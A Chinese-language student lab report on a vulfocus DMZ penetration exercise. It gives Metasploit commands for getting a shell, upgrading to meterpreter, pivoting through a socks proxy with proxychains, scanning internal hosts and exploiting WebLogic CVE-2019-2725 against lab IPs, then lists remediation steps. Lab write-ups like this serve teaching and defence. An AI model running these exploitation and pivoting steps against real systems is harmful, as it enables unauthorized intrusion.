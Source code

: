 # 网络安全实践

## 实验环境
kali2024.4
## 实验内容

## 实验步骤

### 基础运行环境准备

### 漏洞攻防环境搭建

启动vulfocus
![启动vulfocus](./pics/启动vulfocus.png)

### 场景化漏洞攻防（以 vulfocus 提供的【跨网段渗透(常见的dmz)】为例）

1. 场景安装与配置

* 【场景管理】→【环境编排管理】，根据课堂内容创建场景拓扑并保存
![自己布置的场景](./pics/场景具体拓扑图.png)
* 进入【场景】，启动指定场景
![场景](./pics/已上传的场景.png)
启动场景后可以看到相应的
![启动场景](./pics/启动场景后的容器.png)

2. 捕获指定容器的上下行流量，准备抓包
![捕获流量](./pics/捕获指定容器的上下行流量.png)

3. 攻破靶标1

* metasploit 基础配置

```
# 更新 metasploit
sudo apt install -y metasploit-framework
```

![更新](./pics/更新%20metasploit.png)

初始化metasploit本地工作数据库
![初始化metasploit](./pics/初始化metasploit本地工作数据库.png)

![开放端口](./pics/通过%20vulfocus%20场景页面看到入口靶标的开放端口.png)

![工作区](./pics/已经在demo工作区.png)

![工作区](./pics/建立工作区.png)

![搜索](./pics/在metasploit里搜索样例.png)

![use](./pics/使用上述exp.png)

![查看参数](./pics/查看exp可配置参数列表.png)

![靶机IP](./pics/配置靶机IP和目标端口.png)

![主机IP](./pics/配置攻击者主机IP.png)

![payload](./pics/使用合适的exppayload.png)

get shell
![getshell](./pics/getshell.png)
![查看打开的shell](./pics/查看打开的shell.png)

进入会话1并尝试bash指令
![get1](./pics/getshell进入会话1并尝试bash指令.png)
![bash](./pics/已拿到入口flag.png)

4. 建立立足点并发现靶标2-4

* 将cmdshell升级为metrpretershell
```sessions -u 1```
![升级](./pics/将cmdshell升级为metrpretershell.png)
进入会话2
```sessions -i 2```
![进入会话2](./pics/进入会话2.png)

* 进入会话2查看网卡列表

```
ipconfig
arp
route
```

![查看网卡](./pics/进入会话2查看网卡列表.png)

* 查看路由表和arp表

![查看路由表arp表](./pics/查看路由表和arp表.png)
![autoroute](./pics/runautoroute-s.png)

* 搜索可用的portscan
```search portscan```
![搜索](./pics/搜索可用的portscan.png)

use选择的portscan并查看可配置参数列表
![useportscan](./pics/use选择的portscan并查看可配置参数列表.png)
配置portscan参数
![配置参数](./pics/配置portscan参数.png)
tcp扫描100%
![saomiao](./pics/tcp扫描100%25.png)
查看发现新的hosts和services
![查看服务](./pics/扫描100%25后新的设备和hosts.png)
搜索socks_proxy并use
![use](./pics/搜索socks_proxy并use.png)
在后台开启socks—proxy
![socks](./pics/在后台开启socks——proxy.png)

* 新开一个cmd窗口

查看1080端口服务开放情况
![查看服务](./pics/查看1080端口服务开放情况.png)

* 编辑/etc/proxychains4.conf

```
sudo sed -i.bak -r "s/socks4\s+127.0.0.1\s+9050/socks5 127.0.0.1 1080/g" /etc/proxychains4.conf
```
![编辑](./pics/编辑etcproxychains4.png)
在攻击者主机新的窗口nmap扫描
![nmap](./pics/在攻击者主机新的窗口nmap.png)

```
# 重新进入 shell 会话
sessions -i 1
curl http://192.170.84.2:7001 -vv
curl http://192.170.84.3:7001 -vv
curl http://192.170.84.4:7001 -vv
```

![](./pics/curl2.png)
![](./pics/curl3.png)
![](./pics/curl4.png)

5. 攻破靶标2-4

```
# search exploit
search cve-2019-2725

# getshell
use 0
show options
set RHOSTS 192.170.84.2
# 分别设置不同的靶机 IP 
set lhost 192.168.56.214
# 分别 run
run -j
```

![](./pics/拿到flag2.png)
![](./pics/flag3.png)
![](./pics/flg4.png)

6. 攻破最终靶标
![](./pics/升级并发现双网卡.png)
![](./pics/最后一个flag查找中.png)
![](./pics/最后一个flag过程2.png)
![](./pics/flag5.png)

7. 拷贝抓包文件，进行分析
![](./pics/抓包结果之一.png)
![](./pics/抓包结果之二.png)

#### 漏洞修复

weblogic-CVE-2019-2725漏洞修复方案

1. 禁⽤bea_wls9_async_response组件；

2. 删除wls9_async_response的war包并重启 ；

3. 禁⽌访问 /_async/* 路径

4. 升级本地JDK版本

* 查阅官方文档，可以看到官方发布的补丁包

[cve-2019-2725补丁](https://www.oracle.com/technetwork/security-advisory/alert-cve-2019-2725-5466295.html?from=timeline) 

## 遇到的问题

1. 无法登陆，显示服务器内部错误
![报错](./pics/服务器内部错误.png)

* 解决方法：
![解决方法](./pics/服务器内部错误解决方法.png)
![解决方法](./pics/服务器内部错误解决方法2.png)

2. 无法启动场景，一直有一个容器无法启动，并且无法getflag
![报错](./pics/无法启动场景时查看日志发现报错.png)
![启动场景](./pics/启动场景后的容器.png)
解决方法：发现是docker.io的问题，卸载docker.io安装docker-ce后场景能够顺利运行
![](./pics/查看dockerio.png)
![](./pics/查看dockerce.png)

## 参考资料

[WebLogic漏洞复现（附带修复方法）_weblogic漏洞修复](https://blog.csdn.net/Python84310366/article/details/148626907)
[网络安全攻防实践](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice/blob/main/README.md)